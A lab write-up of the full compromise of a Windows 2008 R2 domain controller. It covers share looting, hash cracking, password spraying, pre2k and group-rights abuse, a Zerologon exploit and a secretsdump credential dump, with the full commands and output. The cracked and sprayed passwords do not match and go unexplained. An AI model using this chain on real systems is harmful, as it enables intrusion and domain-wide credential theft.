




**Target:**   `10.129.98.205`
**Domain:**   `retro2.vl`
**Date:**     November 2026
**Platform:** Vulnlab
## Executive Summary
This report documents the full compromise of the retro2.vl domain, running on a legacy Windows Server 2008 R2 domain controller. A guest-readable share exposed a password-protected Access database whose hash was recovered with `office2john` and cracked against rockyou, and the credential was sprayed across RID-enumerated users to authenticate as `ldapreader`. BloodHound revealed two pre2k-vulnerable machine accounts and a chain of delegation and group-write rights: a machine password was force-changed, a user was added to the privileged `SERVICE` group, and RDP access was obtained. Finally, the ancient DC was exploited with Zerologon (CVE-2020-1472) to reset the machine account and dump every domain hash with secretsdump, completing the Administrator compromise.

## Recon

```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ sudo nmap 10.129.98.205  -p- -Pn -sC -sV -A -T4 -vv -oN RetroTwo.txt
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15F75)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-11-17 03:38:29Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 127 Windows Server 2008 R2 Datacenter 7601 Service Pack 1 microsoft-ds (workgroup: RETRO2)
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Service
|_ssl-date: 2026-11-17T03:40:05+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETRO2
|   NetBIOS_Domain_Name: RETRO2
|   NetBIOS_Computer_Name: BLN01
|   DNS_Domain_Name: retro2.vl
|   DNS_Computer_Name: BLN01.retro2.vl
|   Product_Version: 6.1.7601
|_  System_Time: 2026-11-17T03:39:25+00:00
| ssl-cert: Subject: commonName=BLN01.retro2.vl
| Issuer: commonName=BLN01.retro2.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2026-11-16T03:34:40
| Not valid after:  2027-05-18T03:34:40
| MD5:     918b 63af 07bf 0231 ef9b e66d ba02 0467
| SHA-1:   206e 2a82 a0bf 57d1 bf9d cafc b781 fbfa 293c 2029
| SHA-256: 800a c773 bd8c c5be 3a3a 31f6 1169 94b9 914a 51bb 60f9 64b4 2fb7 6a18 f576 6f7b
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQVCIIxlCq8KFNZnr+yhEWrTANBgkqhkiG9w0BAQUFADAa
| MRgwFgYDVQQDEw9CTE4wMS5yZXRybzIudmwwHhcNMjYxMTE2MDMzNDQwWhcNMjcw
| NTE4MDMzNDQwWjAaMRgwFgYDVQQDEw9CTE4wMS5yZXRybzIudmwwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQCQuy+pwjm/mQWsD1xRxZT88rJbHnxXcn9i
| ZY4PGulTWhOl/aFhsrua7TBCy5FA5HPqSwYzrFB5i2QrIn8STWnX6/CLgXR0PLHB
| 9d0Ms2gz/E5C74fDW0XhUsmoBxSjJXi6zp1IblHg2xffr/3XcT5Wa0Mql6X69B0V
| +N4/HTdt1IosfyOpr7bLSj4MBsXiksavFf+3+S1WzO8+5ot0KTOagqmtxHQG3z0X
| GHU/4JwGpZu0q2es/L1mOyGPh/0NLbaKX4EwQWAhdnBKUjjZf75+uG9etDQBSnhz
| SX3bENwr4SBh4QeGrJR7UUGVzCZ/ByveS0eL3rsY/V1jl3zEeTF7AgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQUF
| AAOCAQEAWClf3yeLKz99NH2XfwCg37omZdmYZZntgbMaDdZ7cHobYJQbw9/lqZqM
| d7bvjb4smF3aGDufxbWOAHV4SBgu6cQM2WsbrNYBGYP9rnUtwalaCY2fbxhLgMn2
| e/IrsNgQ48UyO9LysEc5EHUDypEEUlTmFU9t21YuqNS5HmBHTndhjRgZ7ekXbhmq
| 793L6CafKk/GWrGWab5uPTNWaPxVk8xhxpXnsUnwdjMdFAGqD+TgMQPDd3wYs69n
| wKIq97UHsx63H8RMtHV4aH671oEz8KUlRyJUYUMJyL7M8DQTSYEh2PGY555nO+It
| CFqdWrKqsv7Vp4ot/dL+RxjlHqZ1qw==
|_-----END CERTIFICATE-----
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=11/17%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6AFBCC99%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=7)
SEQ(SP=103%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=7)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M542NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.005 days (since Tue Nov 17 03:33:22 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: BLN01; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
|_clock-skew: mean: -11m59s, deviation: 26m48s, median: 0s
| smb2-time: 
|   date: 2026-11-17T03:39:26
|_  start_date: 2026-11-17T03:33:59
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Datacenter 7601 Service Pack 1 (Windows Server 2008 R2 Datacenter 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: BLN01
|   NetBIOS computer name: BLN01\x00
|   Domain name: retro2.vl
|   Forest name: retro2.vl
|   FQDN: BLN01.retro2.vl
|_  System time: 2026-11-17T04:39:27+01:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64342/tcp): CLEAN (Timeout)
|   Check 2 (port 53711/tcp): CLEAN (Timeout)
|   Check 3 (port 30075/udp): CLEAN (Timeout)
|   Check 4 (port 43408/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   96.85 ms 10.10.16.1
2   97.04 ms 10.129.98.205

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:40
Completed NSE at 03:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:40
Completed NSE at 03:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:40
Completed NSE at 03:40, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.85 seconds
           Raw packets sent: 131196 (5.776MB) | Rcvd: 113 (5.704KB)
```

## SMB enumeration

guest account is enabled we can start by enumrating the shares

```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ nxc smb 10.129.98.205 -u "guest" -p ""  --shares
SMB         10.129.98.205   445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.98.205   445    BLN01            [+] retro2.vl\guest: 
SMB         10.129.98.205   445    BLN01            [*] Enumerated shares
SMB         10.129.98.205   445    BLN01            Share           Permissions     Remark
SMB         10.129.98.205   445    BLN01            -----           -----------     ------
SMB         10.129.98.205   445    BLN01            ADMIN$                          Remote Admin
SMB         10.129.98.205   445    BLN01            C$                              Default share
SMB         10.129.98.205   445    BLN01            IPC$                            Remote IPC
SMB         10.129.98.205   445    BLN01            NETLOGON                        Logon server share 
SMB         10.129.98.205   445    BLN01            Public          READ            
SMB         10.129.98.205   445    BLN01            SYSVOL                          Logon server share 
```


we can download the staff.access.db from the share
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ smbclient -U 'guest%' //10.129.98.205/Public
Try "help" to get a list of possible commands.
smb: \> 
smb: \> ls
  .                                   D        0  Sat Aug 17 15:30:37 2024
  ..                                  D        0  Sat Aug 17 15:30:37 2024
  DB                                  D        0  Sat Aug 17 13:07:06 2024
  Temp                                D        0  Sat Aug 17 12:58:05 2024

                6290943 blocks of size 4096. 821175 blocks available
smb: \> cd DB\
smb: \DB\> LS
  .                                   D        0  Sat Aug 17 13:07:06 2024
  ..                                  D        0  Sat Aug 17 13:07:06 2024
  staff.accdb                         A   876544  Sat Aug 17 15:30:19 2024

                6290943 blocks of size 4096. 821175 blocks available
smb: \DB\> get staff.accdb 
getting file \DB\staff.accdb of size 876544 as staff.accdb (592.4 KiloBytes/sec) (average 592.4 KiloBytes/sec)
```

its password protected use office2john
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ office2john staff.accdb
staff.accdb:$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf77d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235

┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ echo 'staff.accdb:$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf77d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235'> hash.txt
```

then we can crack the hash using john with rockyou word list
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ john --format=office --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 512/512 AVX512BW 16x / SHA512 512/512 AVX512BW 8x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
class08          (staff.accdb)     
1g 0:00:00:04 DONE (2026-11-17 03:54) 0.2032g/s 936.5p/s 936.5c/s 936.5C/s hello!..class08
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
[ble: elapsed 5.527s (CPU 699.2%)] john --format=office --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

since we got the user name and password we can try to password spray from the collected username from the `-rid-brute` force

```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ nxc smb 10.129.98.205 -u "guest" -p "" --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee username.txt
Administrator
Guest
krbtgt
admin
BLN01$
Julie.Martin
Clare.Smith
Laura.Davies
Rhys.Richards
Leah.Robinson
Michelle.Bird
Kayleigh.Stephenson
Charles.Singh
Sam.Humphreys
Margaret.Austin
Caroline.James
Lynda.Giles
Emily.Price
Lynne.Dennis
Alexandra.Black
Alex.Scott
Mandy.Davies
Marilyn.Whitehouse
Lindsey.Harrison
Sally.Davey
ADMWS01$
inventory
ldapreader
FS01$
FS02$
```


```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ nxc smb 10.129.98.205 -u "username.txt" -p "ppYaVcB5R"
SMB         10.129.98.205   445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)                                                                                                                                                                            
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Administrator:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Guest:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\krbtgt:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\admin:ppYaVcB5R STATUS_LOGON_FAILURE 
^CSMB         10.129.98.205   445    BLN01            [-] retro2.vl\BLN01$:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Julie.Martin:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Clare.Smith:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Laura.Davies:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Rhys.Richards:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Leah.Robinson:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Michelle.Bird:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Kayleigh.Stephenson:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Charles.Singh:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Sam.Humphreys:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Margaret.Austin:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Caroline.James:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Lynda.Giles:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Emily.Price:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Lynne.Dennis:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Alexandra.Black:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Alex.Scott:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Mandy.Davies:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Marilyn.Whitehouse:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Lindsey.Harrison:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\Sally.Davey:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\ADMWS01$:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [-] retro2.vl\inventory:ppYaVcB5R STATUS_LOGON_FAILURE 
SMB         10.129.98.205   445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R
```

thier is nothing specific on SMB we can check for any ACL from Bloodhound 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ bloodhound-ce-python -u ldapreader -p 'ppYaVcB5R' -d retro2.vl  -ns 10.129.98.205  -c All
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: retro2.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Testing resolved hostname connectivity dead:beef::2d27:a6ad:abc7:bf86
INFO: Trying LDAP connection to dead:beef::2d27:a6ad:abc7:bf86
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Testing resolved hostname connectivity dead:beef::2d27:a6ad:abc7:bf86
INFO: Trying LDAP connection to dead:beef::2d27:a6ad:abc7:bf86
INFO: Found 27 users
INFO: Found 43 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: BLN01.retro2.vl
INFO: Done in 00M 22S
```
also we found 2 computer pre2k vuln
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ nxc ldap 10.129.98.205 -u "ldapreader" -p "ppYaVcB5R" -M pre2k 
LDAP        10.129.98.205   389    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 (name:BLN01) (domain:retro2.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.98.205   389    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
PRE2K       10.129.98.205   389    BLN01            Pre-created computer account: FS01$
PRE2K       10.129.98.205   389    BLN01            Pre-created computer account: FS02$
PRE2K       10.129.98.205   389    BLN01            [+] Found 2 pre-created computer accounts. Saved to /home/penguin/.nxc/modules/pre2k/retro2.vl/precreated_computers.txt
PRE2K       10.129.98.205   389    BLN01            [+] Successfully obtained TGT for fs01@retro2.vl
PRE2K       10.129.98.205   389    BLN01            [+] Successfully obtained TGT for fs02@retro2.vl
PRE2K       10.129.98.205   389    BLN01            [+] Successfully obtained TGT for 2 pre-created computer accounts. Saved to /home/penguin/.nxc/modules/pre2k/ccache
```

so we got pretty good amount of chaining to do 


## Lateral Movement - Delegation & Group Abuse

first we need to export the TGT ticket to force change the password from `fs01`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ export KRB5CCNAME=/home/penguin/.nxc/modules/pre2k/ccache/fs01.ccache

┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ klist
Ticket cache: FILE:/home/penguin/.nxc/modules/pre2k/ccache/fs01.ccache
Default principal: fs01@RETRO2.VL

Valid starting     Expires            Service principal
11/17/26 04:26:00  11/17/26 14:26:00  krbtgt/RETRO2.VL@RETRO2.VL
        renew until 11/18/26 04:25:59
```

then we can change the password of the computer `ADMWS01$`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ bloodyAD --host bln01.retro2.vl --dc-ip 10.129.98.205 -d retro2.vl -u FS01 -k set password 'ADMWS01$' 'Password@123'
[+] Password changed successfully!
```

then we can add the user to the `SERVICE` group we have  ADD-Member priv so we can abuse that to add  `ldapreader` user
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ bloodyAD --host bln01.retro2.vl --dc-ip 10.129.98.205 -d retro2.vl  -u 'ADMWS01$' -p 'Password@123' add groupMember 'SERVICES' 'ldapreader'
[+] ldapreader added to SERVICES
```

then we can rdp 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ xfreerdp3 /v:10.129.98.205 /u:ldapreader /p:'ppYaVcB5R' /d:retro2.vl /cert:ignore /sec:rdp
```


This is freaking old machine


## Privilege Escalation - Zerologon

we can start with zerologon
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo]
└─$ nxc smb 10.129.98.205 -u "ldapreader" -p "ppYaVcB5R" -M zerologon 
SMB         10.129.98.205   445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.98.205   445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
ZEROLOGON   10.129.98.205   445    BLN01            VULNERABLE
ZEROLOGON   10.129.98.205   445    BLN01            Next step: https://github.com/dirkjanm/CVE-2020-1472
```

```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo/CVE-2020-1472]
└─$ python3 cve-2020-1472-exploit.py BLN01 10.129.98.205
Performing authentication attempts...
============================================================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

now we can dump the  all  creds using empty  password
```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo/CVE-2020-1472]
└─$ impacket-secretsdump -no-pass 'retro2.vl/BLN01$@10.129.98.205'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c06552bdb50ada21a7c74536c231b848:::
